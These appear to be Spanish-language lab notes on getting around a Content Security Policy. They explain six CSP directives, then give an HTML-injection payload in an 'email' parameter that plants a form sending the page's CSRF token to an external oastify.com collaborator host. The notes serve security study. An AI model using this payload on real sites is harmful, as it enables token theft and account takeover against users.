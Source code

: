 ```
1. default-src 'self' --> Solo permite cargar recursos del mismo origen.
2. object-src 'none' --> Bloquea completamente objectos embedidos como (<object>,<embed>,<applet>).
3. style-src 'self' --> Bloquea CSS externo o inline.
4. script-src 'self' --> Bloquea scripts inline, eval y de terceros.
5. img-src 'self' --> Solo permite imágenes del mismo dominio.
6. base-uri 'none' --> Impide el uso del elemento <base>.
```

![](/img2/Pasted%20image%2020250729160338.png)

```html
?email="></form><form class="login-form" name="change-email-form" action="https://vyxelfzsnsdxwspp1uvn17mz2q8jw9ky.oastify.com?token=csrf.value" method="GET"><button class="button" type="submit">Click Me</button>
```

![](/img2/Pasted%20image%2020250729160430.png)

![](/img2/Pasted%20image%2020250729160518.png)
